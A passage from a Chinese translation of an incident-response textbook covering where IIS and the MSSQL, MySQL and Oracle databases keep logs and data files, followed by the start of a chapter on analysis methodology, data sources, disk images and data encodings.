最后，使用 IIS 处理 X-Forwarded-For 问题要复杂一些。我们发现了一篇博客文章，解释了一些选项，包括启用 IIS 高级日志记录和安装自定义 IIS 模块：

**在 Web 上获取它**

[blogs.iis.net/deanc/archive/2013/07/08/iis7-8-logging-the-real-client-ip-in-the-iis-hit-logs.aspx](http://blogs.iis.net/deanc/archive/2013/07/08/iis7-8-logging-the-real-client-ip-in-the-iis-hit-logs.aspx)[www.iis.net/learn/extensions/advanced-logging-module/advanced-logging-for-iis-custom-logging](http://www.iis.net/learn/extensions/advanced-logging-module/advanced-logging-for-iis-custom-logging)

请注意，当使用高级日志记录时，IIS 将默认将这些日志存储在不同的目录中，%SystemDrive%\inetpub\logs\AdvancedLogs。您可以在我们提供的第二个链接中了解更多关于高级日志记录的信息。

###### **日志文件**

IIS 日志文件以 W3C 扩展日志文件格式记录。该格式是纯文本格式，尽管从 IIS 7 开始，日志使用 UTF-8 编码，因此可能包含 Unicode 字符。字段是可自定义的，并且默认值可能在不同版本的 IIS 之间发生更改。日志文件的开头包含以井号开头的信息条目，指示 IIS 版本、日志启动日期和正在记录的字段。实际请求将出现在信息行之后，如下面示例所示，该示例来自 IIS 8.0 日志文件：

```powershell
#Software: Microsoft Internet Information Services 8.0
#Version: 1.0
#Date: 2014-02-20 02:22:09#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip
cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken 2014-02-20 03:47:30 10.0.5.2 GET /download/2014021.txt - 80 - 172.24.13.37
Mozilla/5.0+(Windows+NT+6.2;+WOW64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+ Chrome/32.0.1700.107+Safari/537.36 http://localhost:80/ 200 0 0 94
```

由于行太长，在这里可能很难看出，但是这个日志文件有五个条目。前四个以“＃”符号开头，提供了关于IIS和日志文件格式的信息。第五个条目是来自IP地址为172.24.13.37的客户端的GET请求，其请求的URL为/download/2014021.txt。您可以在以下链接中阅读每个字段的描述以及如何选择记录哪些字段：

- **GO GET IT ON THE WEB**
  
    [technet.microsoft.com/en-us/library/cc754702(v=ws.10).aspx](http://technet.microsoft.com/en-us/library/cc754702(v=ws.10).aspx)
    

现在我们已经涵盖了Web服务器，让我们继续下一个领域-数据库服务器。

### **数据库服务器**

数据库是几乎所有现代企业的关键部分。有时它们不是很明显，因为数据库可能与另一个产品集成，并且未安装为专用服务器。我们进行过调查，其中应用程序所有者甚至不知道有一个支持其系统的数据库。但是，如果攻击者正在寻找的是数据库，您可以确定他们会了解数据库。在我们的调查中，我们从数据库中发现了几个常见的证据来源：

- **客户端连接日志** 大多数数据库记录客户端尝试连接时的详细信息，例如日期、时间和源IP地址。当您尝试回答“攻击者是否连接到此数据库？”等问题时，此信息非常有用。
- **错误日志** 错误日志也很常见，通常包括格式不正确的查询、数据库崩溃、安全违规和其他关键错误的发生。如果攻击者试图强制进入（和绕过）数据库，则错误日志通常包含有用的信息。
- **查询日志** 数据库提供的基本服务是能够针对一组数据执行查询的能力。这些查询可以提取、修改或添加信息。大多数数据库都可以记录这些查询；然而，由于性能开销，通常不启用查询日志记录。您可以检查查询日志以查找攻击者执行的查询，这将帮助您确定攻击者试图实现的目标。
- **数据库存储** 大多数数据库系统将数据存储在多个文件中。在调查期间，您可能希望通过复制数据库文件来保留数据库。但是，根据数据库系统的不同，情况可能并不那么简单。一些数据库系统使用“原始”存储方法-专有方法来管理一个或多个物理级别的存储设备。

数据库及其支持系统可能高度定制，因此每当您需要获取日志文件的副本或保留数据库存储时，最好与当地的数据库和系统管理员合作。

与数据库和事件响应相关的最复杂的任务是分析数据库本身。您将希望避免在生产系统上执行此操作，因为您可能会修改证据并可能会遭受损失。最好的选择是在单独的系统上恢复数据库的副本。

在本节中，我们涵盖了我们最常遇到的三个数据库：Microsoft SQL、MySQL和Oracle。但是，请注意，如果您对数据库的了解仅限于本节中所读的内容，那么您只知道足以危及安全。我们鼓励您自行了解有关每个数据库的更多信息，并与经验丰富的数据库管理员密切合作。您可以在以下链接中下载、安装和尝试这些数据库中的任何一个：

- **GO GET IT ON THE WEB**
  
    **Microsoft SQL Express** [www.microsoft.com/en-us/sqlserver/editions/2012-editions/](http://www.microsoft.com/en-us/sqlserver/editions/2012-editions/)
    express.aspx**Oracle** [www.oracle.com/technetwork/database/enterprise-edition/downloads/index.html](http://www.oracle.com/technetwork/database/enterprise-edition/downloads/index.html)**MySQL** [dev.mysql.com/downloads/mysql](http://dev.mysql.com/downloads/mysql)
    

有几个良好的学习数据库与事件响应和取证有关的更多信息的好地方。首先是使用主要搜索引擎搜索“<数据库名称>取证”，其中<数据库名称>可以是Oracle或您感兴趣的任何其他数据库。该搜索将显示博客文章、白皮书和书籍，这些资源将帮助您入门。接下来是我们发现特别有用的一些资源：

- **GO GET IT ON THE WEB**
  
    [www.blackhat.com/presentations/bh-usa-07/Fowler/Presentation/bh-usa-07-fowler.pdf](http://www.blackhat.com/presentations/bh-usa-07/Fowler/Presentation/bh-usa-07-fowler.pdf)[www.davidlitchfield.com/security.htm](http://www.davidlitchfield.com/security.htm)[airccse.org/journal/cseij/papers/2312cseij03.pdf](http://airccse.org/journal/cseij/papers/2312cseij03.pdf)
    

对于有关数据库和取证的更深入讨论，我们建议阅读Kevvie Fowler的书籍*SQL Server Forensic Analysis*。

现在让我们看看我们之前提到的三个数据库解决方案-Microsoft SQL、Oracle和MySQL。我们将介绍在哪里可以找到客户端连接日志、错误日志、查询日志以及数据库实际存储在磁盘上的位置。让我们先从Microsoft SQL开始。

#### **Microsoft SQL**

Microsoft SQL，或者 MSSQL，是一种流行的商业数据库解决方案。微软提供付费和免费版本的 MSSQL 数据库，免费版本被称为 SQL Server Express。两个版本都有许多相同的功能，但是 Express 版本有限制，例如最大数据库大小和内存使用量都较低。MSSQL 的大多数配置选项通过 Microsoft SQL Server Management Studio (SSMS) 进行设置或查看。SSMS 和 MSSQL 一起打包，包括付费和免费的 Express 版本。

默认情况下，MSSQL 不会维护客户端连接的历史日志；默认情况下，只记录连接失败的情况。要启用成功登录的日志记录，请使用 SMSS 连接到数据库，在对象浏览器中右键单击服务器，选择“属性”。接下来，选择“安全”页面，在“登录审核”下，选择“失败和成功的登录”选项。登录审核保存在名为 ERRORLOG 的文件中，该文件位于 SQL 服务器实例的日志目录中。在 SQL Server 2012 上，文件的默认位置是 C:\Program Files\Microsoft SQL Server\MSSQL11。MSSQLSERVER\MSSQL\Log\ERRORLOG。ERRORLOG 还包含 MSSQL 服务器错误。您可以在以下链接中阅读有关如何确定 MSSQL 存储文件的位置，包括 ERRORLOG 的更多信息：

**在网上获取**

[technet.microsoft.com/en-us/library/ms143547.aspx](http://technet.microsoft.com/en-us/library/ms143547.aspx)[support.microsoft.com/kb/966659](http://support.microsoft.com/kb/966659)

以下是 ERRORLOG 条目的示例，指示连接尝试失败，然后成功。在这种情况下，错误是针对用户“sa”（称为系统管理员），该用户通常对数据库系统拥有完全权限：

```
2014-02-20 23:03:45.83 Logon       Error: 18456, Severity: 14, State: 8.2014-02-20
      23:03:45.83 Logon       Login failed for user 'sa'. Reason:
         Password did not match that for the login provided. [CLIENT: 192.168.200.2]
      2014-02-20 23:03:48.77 Logon       Login succeeded for user 'sa'.
         Connection made using SQL Server authentication. [CLIENT: 192.168.200.2]

```

或者，SMSS 允许您将登录审核事件重定向到 Windows 安全或应用程序日志，这可能是更好的选择，因为 SQL 服务器重新启动时会轮换 ERRORLOG。

一旦您能够看到用户何时连接到数据库，下一个问题就是回答他们做了什么。如果攻击者通过 SQL 连接窃取数据，则很可能执行选择语句。MSSQL 像大多数其他数据库一样，默认情况下不会记录 SQL 查询。记录选择语句的最简单方法是通过大多数人称之为“服务器端跟踪”的方式。启用任何跟踪时必须小心，因为跟踪可能会产生大量的处理开销，可能会严重影响整体数据库性能。有一篇非常好的博客文章介绍了设置和查看用于选择语句的服务器端跟踪的步骤，链接如下：

- **上网获取**
  
    [blogs.msdn.com/b/sreekarm/archive/2009/01/05/auditing-select-statements-in-sql-](http://blogs.msdn.com/b/sreekarm/archive/2009/01/05/auditing-select-statements-in-sql-)
    server-2008.aspx
    

在某些情况下，您可能需要在数据库仍在运行时保留数据库文件。一般的方法是通过包含数据库文件的驱动器的取证映像来实现。存储实际 MSSQL 数据库内容的文件的扩展名为 .mdf 和 .ldf。MDF 文件是主要的数据库文件，而 LDF 文件包含事务日志数据。这些文件存储在 MSSQL 服务器实例目录中的 Data 目录中。当数据库实例正在运行时，这些文件被锁定，您无法通过正常手段复制它们。如果您无法停止运行的实例，则可以使用 SMSS 执行数据的备份或导出 - 但这更像是一种最后的手段，因为有更大的机会更改证据。

#### **MySQL**

MySQL 是一种非常流行的开源数据库，可在 Linux、Unix 和 Windows 上运行。MySQL 配置文件通常命名为 my.cnf 或 my.conf，将指示启用了哪些日志记录，日志文件的位置以及数据库存储位置。配置文件通常位于 /etc、/etc/mysql 或 /usr/local 目录下的其中一个目录中。以下表列出了对我们重要的配置设置：

| 指令 | 描述 |
| --- | --- |
| log_error | 错误日志文件的完整路径和名称 |
| general_log_file | 记录客户端连接和查询等事件的常规活动日志文件的完整路径和名称 |
| general_log | 启用或禁用 general_log_file 的布尔值(1 = 启用，0 = 禁用) |
| datadir | 存储 MySQL 数据库数据文件的目录 |

在 Linux 下，一个常见的日志文件位置是 /var/log/mysql 目录。在大多数默认的 MySQL 部署中，仅启用了错误日志。错误日志记录关键错误和重要的信息事件，例如服务器启动和关闭，或数据库崩溃或故障。最有用的日志记录来自常规日志。但是，由于日志开销，常规日志可能对性能产生严重影响。以下记录是常规日志记录 select 语句的示例：

```
140220 20:14:03  12583 Connect root@192.168.200.2 on cards
                      12583 Query  select * from cc_data limit 1

```

在此示例中，2014 年 2 月 20 日的 20:14:03，数据库用户 "root" 从 192.168.200.2 连接，使用名为 "cards" 的数据库，并执行以下 SQL 查询：

```
select * from cc_ data limit 1

```

有关 MySQL 服务器日志和常规查询日志的更多详细信息，请访问以下链接：

- **上网获取**
  
    [dev.mysql.com/doc/refman/5.6/en/server-logs.html](http://dev.mysql.com/doc/refman/5.6/en/server-logs.html)[dev.mysql.com/doc/refman/5.6/en/query-log.html](http://dev.mysql.com/doc/refman/5.6/en/query-log.html)
    

MySQL 数据文件存储在由 datadir 配置指令指定的目录中。MySQL 可以使用多种数据库文件存储格式，但我们遇到的最常见的是 MyISAM 和 InnoDB 格式。如果您需要保留 MySQL 数据库文件，最理想的方法是优雅地关闭服务器并收集取证映像。在运行的系统上，最理想的方法是暂时关闭 MySQL 服务并复制 datadir 中的所有文件。如果无法关闭 MySQL 服务，则可以使用 mysqldump 命令执行备份。完整的命令参考及示例可在 MySQL 的网站上找到：

- **上网找找吧**
  
    [dev.mysql.com/doc/refman/5.6/en/mysqldump.html](http://dev.mysql.com/doc/refman/5.6/en/mysqldump.html)
    

#### **Oracle**

Oracle数据库是我们在调查中经常遇到的另一个商业数据库。Oracle数据库运行在Windows、Linux和一些Unix平台上。Oracle为开发目的提供了免费版本的数据库，但受限制的许可证。让我们看看Oracle可以在客户端连接日志、错误日志、查询日志和数据库文件方面提供什么。

Oracle数据库使用透明网络基础设施(TNS)侦听器来处理连接。默认情况下，tns侦听器维护一个日志文件，记录有关每个客户端连接的详细信息-请注意，这是一个连接，而不是身份验证。日志文件名称为listener.log，在Oracle 12 *c*中，该文件位于Oracle应用程序安装目录下的diag\tnslsnr\<instance name>\listener\trace\listener.log。tns侦听器还维护一个名为log.xml的XML格式的警报日志，该文件在Oracle 12 *c*中可以在目录diag\tnslsnr\<instance name>\listener\alert\log.xml中找到。如果执行了任何跟踪和转储，警报日志将包含对它们的引用。以下是连接到Oracle 12 *c*数据库的成功示例：

```
11-FEB-2014 12:29:04 * (CONNECT_DATA=(SID=testdb)(CID=(PROGRAM=JDBC Thin Client)
   (HOST=__jdbc__)(USER=Bob))) * (ADDRESS=(PROTOCOL=tcp)(HOST=192.168.200.2)
   (PORT=60866)) * establish * testdb * 0

```

在此事件中，从IP地址192.168.200.2连接到tns侦听器。由使连接的数据库客户端指定PROGRAM、HOST和USER。用户名不是客户端尝试登录的用户名，而是远程系统上的用户名(在本例中为Bob)。再次强调，该listener.log事件不表示实际成功或失败的身份验证数据库；它只是到tns侦听器的连接。要确定身份验证成功后的用户名，必须在系统上启用审核。

Oracle审核需要记录连接和查询的详细信息。与其他数据库系统一样，由于性能影响，我们很少发现启用审计。Oracle中的审核是复杂的，每个版本的能力和程序都不同。因为本书的篇幅不够，所以最好不要在这里提供详细信息。但是，对于那些有兴趣的人，以下Oracle文档站点提供了一个很好的起点。我们还建议咨询有经验的Oracle数据库管理员。

- **上网找找吧**
  
    [docs.oracle.com/cd/E16655_01/server.121/e17609/tdpsg_auditing.htm#TDPSG50000](http://docs.oracle.com/cd/E16655_01/server.121/e17609/tdpsg_auditing.htm#TDPSG50000)[docs.oracle.com/cd/E16655_01/network.121/e17607/toc.htm](http://docs.oracle.com/cd/E16655_01/network.121/e17607/toc.htm)
    

最后，Oracle数据库文件位于一个名为ORACLE_BASE\oradata\的目录下，其中ORACLE_BASE在Oracle配置的位置中定义。在Windows中，ORACLE_BASE存储在注册表中，位于HKEY_LOCAL_MACHINE\SOFTWARE\Oracle下。ORACLE_BASE键存储在与Oracle版本对应的子键中(例如，Oracle 12 *c*使用子键KEY_OraDB12Home1)。在Linux或Unix变体下，ORACLE_BASE目录通常被定义为数据库运行的用户的环境变量-例如，文件/home/oracle/.bash_profile中可能包含像export ORACLE_BASE=/u01/app/oracle这样的行。每个数据库实例将在一个名为实例名称的目录下存储其文件。您还可以搜索具有.dbf扩展名的文件，这是Oracle数据库文件的默认文件扩展名。Oracle在以下链接中提供有关定位Oracle数据库文件的其他信息：

- **上网找找吧**
  
    [docs.oracle.com/cd/E16655_01/install.121/e17735/startrdb.htm](http://docs.oracle.com/cd/E16655_01/install.121/e17735/startrdb.htm)
    

### **那又怎样？**

有效跟踪攻击者需要在您的企业内部获得全面的可见性。企业服务生成的日志是可见性的关键部分。因此，我们鼓励您发现企业中的所有服务-安全或其他服务。确定它们是否可以为您提供有用的信息。如果可以，集中收集并开发高效的搜索和分析方法。未来，您可以与负责研究和部署新技术的组织分支保持紧密联系，以保持领先地位。

### **问题**

1. 您可能发现哪些常见的服务或应用程序对调查有帮助？
2. 网络服务（如DHCP）是否对事件响应至关重要？如果没有DHCP日志，您如何确定该IP地址分配给哪个系统？
3. 您的公司最近在整个企业部署了一个新的应用程序。该应用程序是一种新的灾难恢复工具，可以自动将用户系统的数据备份到中央服务器。备份数据已加密，但备份软件维护了一个明文的本地日志文件。应怎样利用这项服务来响应事件？
4. 在本章中，我们提到“启动法医映像的副本”。我们在谈论什么？描述执行该任务的工具和方法。


# 第4部分数据分析
## 第11章 **分析方法**

科学素养倡导者尼尔·德格拉斯·泰森曾说：“科学是装备自己解释眼前发生的事情的工具。”作为事件响应、计算机取证或计算机安全领域的从业者，很难否认科学的重要性。我们的领域存在是因为科学。因此，我们必须理解、接受并使用科学及其工具来执行我们的职责。

当我们考虑对新数据进行分析时，我们遵循类似于科学方法的一般过程：

1. 确定和理解目标。
2. 获取相关数据。
3. 检查数据内容。
4. 进行必要的转换或规范化。
5. 选择一个方法。
6. 进行分析。
7. 评估结果。

这个过程可能会反复多次应用于同一组数据，直到得到好的答案。换句话说，这个过程是迭代的。我们鼓励您在接收到新数据进行分析时使用这个过程，无论是一个小的文本文件、数千兆字节的服务器日志、潜在的恶意软件文件、硬盘的取证图像，还是完全未知的。遵循相同的过程将有助于确保您保持专注并产生一致和准确的结果。我们希望通过在本章中分享我们的经验教训，能够帮助您在整个调查过程中更好地“解释发生在您面前的事情”。

### **定义目标**

我们大多数人都认识到，明确的目标通常会为给定的项目带来更好的结果。制定目标并不难，但制定好的目标可能是一个巨大的挑战。您必须对情况和技术都有指挥性的知识才能发挥作用。您想要确定什么？是否可能从您拥有的事实中得出结论？需要多长时间？您需要什么资源？谁对您的结果感兴趣？他们计划用它们做什么？在开始执行分析之前，您应该对这些问题有清晰的理解。

这个过程中的一个重要步骤是确定（或指定）谁将定义目标。虽然这可能看起来并不重要，但它经常对调查的成功至关重要。除了确定谁定义目标，您还必须确保整个调查团队知道这个人是谁。不采取这一步骤通常会导致沟通不畅和失去重点，从而严重阻碍调查进展。

- **在现场**
  
    关于目标，当有人要求您“证明”一个否定的事情时，请小心。相反，专注于一些积极和现实的事情。例如，您可能会被要求“证明”一个系统没有被破坏。在几乎所有情况下，这将是困难的，如果不是不可能的。原因是，您很可能无法获得所有所需的信息。大多数系统没有每个操作的完整审计跟踪记录，保存并等待您的审查。此外，即使生成了证据，它也可能存在的时间不足够长——日志文件有限的空间，删除的文件被覆盖等等。因此，对于系统上过去的事件，至少有一些证据要么从未存在过，要么随着时间的推移而丢失。相反，您可以寻找一组妥善的指标，并说明是否发现了任何迹象。如果指标是合理的，您可以陈述一个意见，即该系统可能没有被破坏——但您不能确定。您的支持事实证据是，您执行了适当的分析，并没有发现任何证据。
    

调查目标通常被定义为一系列问题。我们审查每个问题并评估它的实际性。一些问题在没有一定范围的情况下是无法回答的。例如，“这台计算机上是否存在恶意软件？”的问题可能看起来很简单，但却不容易回答。您可以花费大量精力查找恶意软件，但仍然很容易错过某些东西。因此，分析通常成为一份任务的短列表，这些任务将为回答问题提供合理的信心。持有者必须意识到，在这种情况下没有保证。有些问题可以更明确地回答。问题“计算机文件系统中是否有一个具有MD5哈希值d41d8cd98f00b204e9800998ecf8427e的活动文件？”可以用非常简单的分析回答，而且回答的信心水平更高。在这种情况下，您会为系统上的每个文件计算一个MD5哈希值，并查看是否匹配。这里的重要概念是，与持有人一起审查每个问题，并概述所提议的方法。这将使他们对可以回答什么、答案有多确定以及涉及多少努力有非常好的理解。

正如您可能已经猜到的，定义目标时的一个重要考虑因素是范围。如果您打算尽力分析，您必须清楚地了解分析的范围是什么。如果有人问“您能为我看一下这个硬盘吗？”，他们可能不是指“您能检查这个硬盘上的每一位并确定它们的含义吗？”那可能比任何人都负担得起的时间和成本还要高。您的工作是理解什么是真正重要的，并保持专注。也许电子邮件是调查目标的一个重要方面，有助于缩小范围，但是“查看所有电子邮件”仍然是一个非常广泛和模糊的陈述。您应该继续进一步定义范围，使其变得明确可行——也许是“对所有活动的.pst文件进行审查，查找从Bob Smith在过去一个月内收到的任何电子邮件”，如果这是适当的话。像一个好奇的孩子一样，您应该始终问“为什么？”如果答案不合理，就问更多的问题。不断地问问题，直到您和持有人就分析的范围和目的达成共识。

作为分析师，您可能需要定义目标，因为组织内的个人可能不总是了解可以执行哪些分析或哪些分析是合理的。根据可用信息，您可能需要明确说明您认为目标应该是什么。您应该允许负责定义目标的个人提问并了解情况。其他时候，可能没有特定的个人，您就是自己的老板。在这些情况下，您必须抵制奔向闪亮物体的诱惑，否则您可能永远不会回来。相反，考虑与问题有关的最重要的问题。

### **了解您的数据**

计算系统可以以许多格式和位置存储数据。在您进行分析甚至选择分析方法之前，需要探索可能的数据来源并了解如何使用它们。本节将讨论数据的高级来源和格式。

在进行调查时，您需要执行的任务之一是数据收集。您将使用收集到的数据来执行分析并回答调查问题。为增加成功的机会，您需要收集对调查有用的数据。了解哪些数据来源存在及其提供的内容将有助于确定要收集的数据。您应参考本书第3章的事故前准备建议中创建的数据来源清单。

- 注意：
  
    我们经常听到“技术变化如此之快，我如何跟上？”的说法。尽管外观随时间变化而变化，但基本原理往往相当稳定。我们鼓励您探索并了解基础知识。它们将使您成为一个经得起时间考验的调查人员。
    

### **数据存储在哪里？**

让我们从查看数据存储的七个最常见位置开始。在此上下文中，“数据”是以非常广泛的意义使用，意味着操作系统文件、应用程序、数据库和用户数据。

- **台式机和笔记本电脑** 用户台式机和笔记本电脑是用于日常业务的物理计算机。它们通常位于用户的桌子或工作区。系统通常包含一个或多个硬盘，其中包含操作系统、应用程序和相关数据。数据也可以存储在通过计算机网络物理连接或访问的外部存储解决方案或介质中。
  
    今天，桌面也可以虚拟化。虚拟桌面通常通过没有本地数据存储的终端访问，仅提供对虚拟化系统的远程访问。虚拟桌面通常在集中的虚拟化基础架构上运行。这将数据存储从传统桌面转移到中央基础架构。
    
- **服务器** 服务器系统通常提供核心业务或基础架构服务。它们通常位于数据中心、服务器室或通讯柜中。服务器系统可能在外观上看起来像用户台式机或笔记本电脑，但更常见的是机架式设备。服务器通常至少有一个用于操作系统的硬盘，但可能不包含任何其他应用程序或数据的驱动器。在某些情况下，应用程序和数据仅存储在外部存储解决方案中。这在虚拟服务器的情况下尤其如此，它们通常集中在虚拟服务器基础架构中。
- **移动设备** 移动设备通常是小型、手持、网络化计算机。它们包括手机、个人数字助理（PDA）、平板电脑和可穿戴计算机。几乎所有移动设备都有相对较小的内置存储器，通常是某种非易失性（闪存）存储器。许多移动设备还具有扩展插槽，可用于额外的内部存储器，或可访问外部存储介质的接口。
- **存储解决方案和介质** USB闪存驱动器、USB硬盘驱动器、CD和DVD是几乎任何环境中常见的存储介质。小型办公室以及中型和大型企业环境通常使用某种形式的基于网络的共享存储解决方案，例如网络附加存储（NAS）或存储区域网络（SAN）。在使用NAS或SAN解决方案的环境中，您可能需要与当地工作人员协调，因为这些解决方案可能很复杂。
- **网络设备** 当今的大多数网络环境都包含防火墙、交换机和路由器等设备。尽管这些设备通常不存储用户数据，但它们可能包含在调查中关键的配置和日志数据。
- **云服务** 在此上下文中，云服务是为组织提供托管应用程序或数据存储的离线第三方服务。常见的业务服务是托管的电子邮件、时间表、工资单和人力资源。但也有许多个人服务，例如Dropbox或Google Drive。
- **备份** 备份是重要数据的副本，通常是灾难恢复计划的一部分。备份可以存储在现有的存储解决方案和介质上，但任何综合性的灾难恢复计划都需要离线备份。备份通常按照定期计划从现场轮换到离线。备份可以存储在常见介质上，例如外部USB驱动器或DVD，但更常见的是保存在磁带介质上。一些面向个人的基于云的备份解决方案也可用，例如Carbonite或Mozy。

### **什么是可用的？**

从一般分析的角度来看，我们刚才概述的位置中可能存在四个高级别的证据类别。每个类别在本书的其余章节中都有更详细的介绍：

- **操作系统** 此类别包括文件系统，如NTFS和HFS +，状态信息，如运行的进程和打开的网络端口（内存），操作系统日志以及任何其他特定于操作系统的数据来源。操作系统特定的来源包括Windows注册表，Unix syslog和Apple OS X属性列表（plist）文件。取证工具可以检查文件系统并提供包括文件名，路径，大小和时间戳的文件列表。
  
    文件系统可以独立于操作系统，每个文件系统都有其独特的特征。请记住，许多存储概念适用于大多数文件系统，例如分配单元，活动文件，删除的文件，时间戳，未分配（空闲）空间，文件松弛和分区表。每个文件系统还将具有独特的特征，数据和工件（例如，NTFS文件名时间戳，NTFS流，UFS节点，HFS资源叉和用于FAT12、16和32文件系统的文件分配表）。进行文件系统分析的绝佳资源是Brian Carrier的书《文件系统取证分析》（Addison-Wesley Professional，2005年3月）。
    
- **应用程序** 应用程序类别包括特定于应用程序的所有工件（例如，Internet浏览器缓存，数据库文件，Web服务器日志，聊天程序用户首选项和日志，电子邮件客户端数据文件等）。请记住，对于给定应用程序的许多工件，在不同操作系统上是相似的。此外，当应用程序被删除或卸载时，一些工件通常会留下来。应用程序工件的资源是巨大的，但通常是专业化的。关于应用程序的书籍和其他资源往往专注于单个类别，或者有时专注于特定产品。我们建议您查看并尝试使用您的环境中常见的应用程序。
- **用户数据** 如果调查对象涉及特定用户或用户组，了解用户数据存储的位置将非常重要。每个用户很可能都有日常系统上的用户数据;但是，在环境中可能有其他系统上的用户数据。例如，电子邮件、文档、电子表格或源代码可能存储在每个用户的集中位置。这些区域应该是您的数据源清单的一部分。
- **网络服务和仪器** 几乎每个组织都有内部网络服务或仪器。有时它们可能被遗忘，但是即使是常见的服务，例如DHCP、DNS和代理服务器，也可能是调查的关键数据来源。想象一下，如果您只有IP地址，而环境是具有高租约周转率的DHCP，您将如何确定哪台计算机受到了损害。此外，常用的仪器，如网络流数据，IDS / IPS系统和防火墙，通常对调查非常重要。这些来源也应该是您的数据源清单的一部分。

### **访问您的数据**

一旦您获得要分析的数据，您可能会遇到的第一个挑战之一是弄清楚如何访问它。在这种情况下，“访问”意味着“处于您可以执行分析的状态”。数据可能已加密，已压缩，已编码，处于自定义格式中，以原始硬盘驱动器提供，包含在硬盘驱动器映像中，或者甚至只是破碎的。尽管我们将在本节中涵盖的信息与分析方法没有直接相关性，但除非您了解您正在查看的内容，否则您将无法执行任何分析。本节应该为您提供实现这一点的想法。

- 警告：
  
    记住遵守您的组织关于处理作为证据收到的数据的政策。采取适当的措施来记录，保护和防止更改数据。否则可能会危及调查，甚至更糟。
    

首先，您需要确定您实际拥有什么。这听起来很简单，但可能相当复杂。如果您自己生成或收集数据，则通常更容易。如果其他人提供给您数据，则需要仔细询问有关所收到的内容。如果您不这样做，则可能很难弄清楚事情。

### **磁盘映像**

让我们看看一个场景。想象一下，您所在组织的某个人告诉您，他们将向您提供来自系统的硬盘副本，您需要分析它以查找安全威胁的迹象。第二天，您通过快递收到一个硬盘。您迫不及待地打开包裹，通过写入阻止器将驱动器连接，开始分析。您很快陷入困境，因为当您将驱动器连接到分析系统时，取证工具无法识别文件系统。更糟糕的是，该驱动器看起来充满了垃圾-似乎是随机字符。基于此，您猜测驱动器可能已加密。但是，没有明确表明加密的类型，您也没有密码或其他所需的访问组件。因此，您尝试联系给您驱动器的人以获取更多信息。不幸的是，这个人去度假了，同事们不确定驱动器来自哪里。此时，您被卡住了，无法执行任何分析。

这里的信息是，当有人给你提供数据时，一定要问问题。你必须获得一些基本答案，以确保知道如何处理所接收到的数据。对于最后一段中的情况，你应该问这个人他们所说的“从系统复制硬盘”的意思是什么。原因是，该声明非常模糊。你应该分解该声明并提出有助于理解“复制”，“硬盘”和“系统”是什么意思的问题。是什么样的副本？也许它是逻辑副本，但也可能是法医图像，甚至是克隆。根据分析的目标，格式可能是不可接受的或有一些需要解决的缺点。如果“复制”实际上是一个镜像，你应该问镜像格式是什么。此外，每当收到“硬盘的副本”时，您都应该问是否使用了磁盘加密，如果使用了磁盘加密，则需要获取访问驱动器所需的信息。有些取证工具提供对使用流行加密包加密的磁盘的相当无缝的访问。有时，工具将需要系统管理员的额外库或文件。如果不支持该软件包，则可能需要寻找其他解决方案以处理加密。最后，您应该就“系统”提出问题。是台式机，笔记本电脑，服务器还是其他东西？系统的品牌和型号是什么？它运行哪个操作系统，包括版本？如果是服务器，是否有RAID设置？如果是，则RAID卡的品牌和型号是什么，RAID设置是什么？它的主要功能是什么？问题可以继续，会因情况和之前问题的回答而有所不同，但我们认为您可能已经了解了。如果您不问这些类型的问题，可能会浪费很多时间。

我们通常会遇到三种磁盘映像格式：专家见证/EnCase(E01)、Raw(DD)和虚拟机磁盘文件(VMDK、OVF)。如果您有商业取证工具，例如来自Guidance Software的EnCase，则通常为所有这些格式内置了支持。这意味着您无需执行转换即可访问数据。如果您没有商业工具，您可以执行转换或使用其他工具进行即时解释或转换。让我们简要地深入了解一下处理磁盘映像。

大多数大型组织都拥有至少一种商业取证工具的许可证。假设该工具是EnCase，则打开磁盘映像非常简单。通常，对于E01和VMDK文件，您可以简单地将它们拖放到EnCase v6中(在启动新案例之后)。如果映像是DD，则必须通过文件 | 添加原始映像来配置映像。商业工具的另一个优点是它们处理各种全磁盘加密(FDE)解决方案的能力。例如，您可能会收到一张使用Credent全磁盘加密加密的硬盘映像。使用商业产品(例如EnCase)，只要拥有适当的密码和/或密钥文件，就可以直接在映像上工作。这样可以避免您必须弄清楚如何解密映像或以其他方式确定如何访问数据。

如果您的预算紧张或只想最小化成本，那么有几个免费工具可以帮助您处理磁盘映像。AccessData的FTK Imager可以创建、转换和查看多种不同类型的磁盘映像。查看能力主要是为了检查或简单文件导出而非取证分析。但转换能力很好——您可以将取证映像添加到FTK Imager中，然后右键单击证据并选择导出。按照导出向导，您可以选择与源不同的导出格式。使用此方法，您可以将E01映像转换为DD，DD转换为E01，或者转换为FTK Imager支持的任何其他格式。在Linux下，您可以使用Filesystem in Userspace(FUSE)来挂载DD映像，使用libewf来挂载E01映像。

它看起来像什么？

本章讨论的分析方法如果忘记一个简单的事实，就会变得无用：表示单个数据的方式有无限多种。当考虑到字符编码、压缩、加密、数据编码、时区、语言和其他与本地相关的格式化时，找到罪恶并解决犯罪的工作可能会变得指数级困难。例如，以下字符串都有什么共同点:

```
"dGhlIHBhc3N3b3JkIGlzIHNvbHZlY3JpbWU="
":=&AE('!A<W-W;W)D(&ES('-O;'9E8W)I;64`"
"5e0f4784789c4705fa4832aa69d41499"

```

乍一看，它们似乎没有任何共同点。然而，它们都源自字符串“the password is solvecrime”。第一个是base64编码，第二个是UU编码，第三个是MD5哈希。作为调查人员，重要的是要意识到所有信息都包含层，例如这些简单类型的编码。为了有效地找到您要查找的内容，您必须了解层可以存在的位置、它们的外观以及如何处理它们。

信息由层组成的想法可能对您来说并不新鲜。计算机的大多数方面都涉及层。可能对您来说是新的是这些层如何影响您的分析。即使是确定硬盘驱动器上是否存在名称或信用卡号码等简单事物，根据存在的层，也可能变成复杂的任务。有许多不同的字符集、编码、压缩、加密和自定义数据结构和格式。在某些情况下，我们检查了一个销售终端的调试日志。第三方的分析写道，调试日志中不存在特定的信用卡号码。我们检查了文件并找到了未加密的信用卡号码。怎么可能？

快速查看文件，我们发现它与典型文本文档的格式不一致。相反，格式类似于标准的十六进制查看器应用程序。通常，十六进制查看器显示左侧的十六进制偏移量，中间表示为十六进制值的二进制数据以及右侧的ASCII转换。

在这种情况下，该文件包含了格式化为十六进制编辑器显示的文本，如下所示:


